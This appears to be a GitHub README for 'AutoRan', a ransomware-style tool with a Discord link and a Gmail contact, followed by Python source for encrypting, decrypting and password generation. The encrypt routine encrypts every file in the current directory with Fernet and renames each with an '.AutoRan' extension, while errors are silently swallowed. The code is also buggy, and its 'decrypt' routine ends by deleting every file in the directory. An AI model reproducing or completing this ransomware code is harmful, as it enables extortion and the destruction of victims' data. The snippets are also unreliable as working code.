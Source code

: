 # AutoRan
## Help
Dev Discord : https://discord.gg/nhNWu8Sjre

Gmail : blacktechasdf@gmail.com
### AutoRan history 1.0
#### Encrypt
###### Encrypt Source Code

```
from cryptography.fernet import Fernet

Encrypt = {}
Files = glob.glob("*.*")

Key = Fernet.generate_key()
F = Fernet(Key)

def Encry():
  try:
    for File in Files:
      with open(File, "r") as fp:
        Data = fp.read()
        Locked = F.encrypt(Data)
        Encrypt[File] = Locked
        os.rename(File, f"{File}.AutoRan")
        FL.insert(END, f"{File} -> {File}.AutoRan")
        fp.close()
  except:
    pass
```

#### Decrypt
##### Decrypt Source Code

```
( Encrypt Source Code )

def Decry():
  try:
    for LockData in Encrypt:
      with open(LockData, "w") as fp:
        Data = Encrypt[LockData]
        UnLocked = F.decrypt(Data).decode()
        fp.write(UnLocked)
      os.rename(f"{LockData}.AutoRan", LockData)
      for file in os.listdir():
        os.remove(file)
  except:
    pass
```

#### Password Generate
##### Password Generate Source Code
```
Password = ""

for i in range(0, 8):
  Password = Password+"x"+random.randrange(10, 100)
```

#### Use cryptography.fernet
